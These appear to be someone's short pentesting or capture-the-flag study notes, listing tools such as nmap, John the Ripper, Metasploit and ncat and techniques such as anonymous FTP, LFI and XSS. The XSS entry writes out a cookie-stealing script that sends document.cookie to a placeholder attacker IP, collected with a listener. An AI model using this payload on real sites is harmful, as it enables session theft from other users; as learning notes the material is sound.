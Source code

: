 # Notes

Tools:
- nmap | $ nmap | Portscan
- john_the_ripper | $ john | PW & Hash Brute-forecing
- dirbuster | $ dirb | dir enumeration
- sherlock | $ python3 sherlock (use whole folder) | OSINT Profile detection by Username
- metasploit | $ msfconsole | Bunch of exploits
- steghide | $ steghide | steganography tool
- ncat | $ncat | use to listen on ports (for example to wait for XSS posts to your ip adress)

Technologies:
- AWS | Amazon Web Services; insecure cloud storage... Use a bucket-name to access on bucketname.amazonaws.com
- FTP | File Transfer Protocol | if configured you can access public files with user "annonymous" pw "guest"
- LFI | Local File Inclusion | Use functions or parameters to access server files; https://www.1337pwn.com/how-to-hack-a-website-using-local-file-inclusion-lfi/ 
- XSS | Cross-Site-Scription | i.e. unsanetiezed User Input (<script> new Image().src = "http://[ip_adress]:1234/cookie.php=cookie="+document.cookie;</cookie> -> then listen to port 1234 to retrieve other users cookie)
